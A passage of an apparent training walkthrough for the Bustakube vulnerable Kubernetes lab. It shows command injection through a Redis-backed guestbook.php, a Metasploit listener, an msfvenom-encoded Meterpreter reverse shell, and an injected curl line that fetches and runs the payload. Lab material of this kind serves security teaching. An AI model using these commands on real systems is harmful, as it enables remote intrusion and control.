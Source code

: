     b. Remember that we're able to set arbitrary Redis keys using `guestbook.php`.

20. In a browser tab, use the `guestbook.php` page to set the command key to `whoami`:

    
    <http://bustakube-controlplane:31361/guestbook.php?cmd=set&key=command&value=whoami>

21. Now, load the `status.php` page to make the command execute - you may need to reload:

    <http://bustakube-controlplane:31361/status.php>

22. Repeat the previous two steps with different values if you like, to see that you have a shell.

23. Repeat 17, using the `guestbook.php` page to set the command key to `env | grep KUBERNETES` to look at the environment variables set in the pod

    ```text
    http://bustakube-controlplane:31361/guestbook.php?cmd=set&key=command&value=env|grep KUBERNETES
    ```

24. Repeat step 18 to see the command run.

25. Let's prep Metasploit to catch our shell.  Start a Metasploit console session:

    ```shell
    msfconsole
    ```

26. In the console, run these commands to start a listener:

    ```ruby
    use exploit/multi/handler
    set payload linux/x86/meterpreter/reverse_tcp
    set LHOST 10.23.58.30
    set ExitOnSession false
    exploit -j
    ```

27. Start another terminal window/tab. Create a Meterpreter binary, as a Linux 32-bit ELF file, encoded with shikata_ga_nai, which will connect back to your Kali host's port `4444`:

    ```shell
    cd ~

    msfvenom -a x86 --platform linux -p linux/x86/meterpreter/reverse_tcp \
    LHOST=10.23.58.30 LPORT=4444 -e x86/shikata_ga_nai -o mrsbin -f elf
    ```

28. Now stage a web server in that terminal, hosting the `mrsbin` binary:

    ```shell
    cd ~ ; python3 -m http.server 80
    ```

29. Let's now put a new command into the Redis database.  Go back to your browser tab that was submitting requests to `guestbook.php` and **enter this in the value field**:

    ```
    # curl http://10.23.58.30/mrsbin >mrsbin ; chmod 0700 mrsbin ; ./mrsbin
    # DO NOT TYPE THE ABOVE INTO A SHELL
    ```
